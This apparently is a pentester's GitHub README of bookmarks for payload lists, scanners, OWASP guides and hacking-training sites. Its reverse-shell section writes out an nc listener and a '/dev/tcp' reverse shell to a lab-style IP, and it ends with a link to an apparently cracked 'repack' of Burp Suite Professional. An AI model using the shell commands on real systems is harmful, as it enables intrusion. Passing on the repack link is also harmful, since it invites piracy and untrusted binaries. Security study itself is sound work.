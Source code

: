 <div align="center">
  <img src="https://i.imgur.com/sHcFK7G.jpg">
  <h1 align="center">
</div>
 
## Main links

 - [Temp email](https://linux0.net/)
 - [Cyberchief](https://gchq.github.io/CyberChef/)
 - [JWT.io](https://jwt.io/)
 - [Revshellgenerator](https://tex2e.github.io/reverse-shell-generator/index.html)
 - [SecLists](https://github.com/danielmiessler/SecLists)
 - [bbfuzzing](https://github.com/reewardius/bbFuzzing.txt)
 - [PayloadsAllTheThings](https://github.com/Fananad/PayloadsAllTheThings)
 - [Chat GPT](https://chat.openai.com/)
 - [PEASS-ng](https://github.com/Fananad/PEASS-ng)
 - [Bookmarks](https://github.com/Fananad/offensive-bookmarks/tree/main)
  
## Scan CMS

 - [CMSmap](https://github.com/dionach/CMSmap)
 - [droopescan](https://github.com/SamJoan/droopescan)

## Resourses for reading
  
 - [OWASP WSTG ENG](https://github.com/OWASP/wstg/tree/master/document)
 - [OWASP WSTG RUS](https://github.com/andrettv/WSTG/tree/master/WSTG-ru)
 - [OWASP ASVS RUS](https://github.com/andrettv/ASVS/tree/master/4.0/ru)
 - [HackTricks](https://book.hacktricks.xyz/welcome/readme)
 - [Exploit DB](https://www.exploit-db.com/)
 - [Vulners](https://vulners.com/) 

# Academies
  
  - [PortSwigger](https://portswigger.net/)
  - [Academy](https://academy.hackthebox.com/dashboard/)
  - [TryHackme](https://tryhackme.com/)
  - [HackTheBox](https://www.hackthebox.com/)
  - [Hacker101](https://www.hacker101.com/)
  - [Codeby Games](https://codeby.games/categories)

# Revers shell 

  - [revshell](https://www.revshells.com/)
  - [ngrok](https://ngrok.com/)

  - python -c 'import pty;pty.spawn("/bin/bash")'
  - nc -lvnp 9999
  - sh -i >& /dev/tcp/10.8.34.51/9999 0>&1


# Search

  - [whois](https://whois.domaintools.com/)
  - [archive](https://archive.org/)
  - [archive ip,dns](viewdns.info)
  - [ip на одном хосте](https://suip.biz/ru/)

# APP
  - [cmd injection commix](https://github.com/commixproject/commix)
  - [ssti tplmap](https://github.com/epinna/tplmap)
  - [ngrok](https://ngrok.com/download)
  - [.DS_Srore](https://github.com/gehaxelt/Python-dsstore)



## Download Burp

[CLICK THIS LINK](https://github.com/Maverick-25/Burp-Suite/releases/download/tool/Burp_Suite_Professional_2023.6.1_2023june15_repack-pwn3rzs.7z)
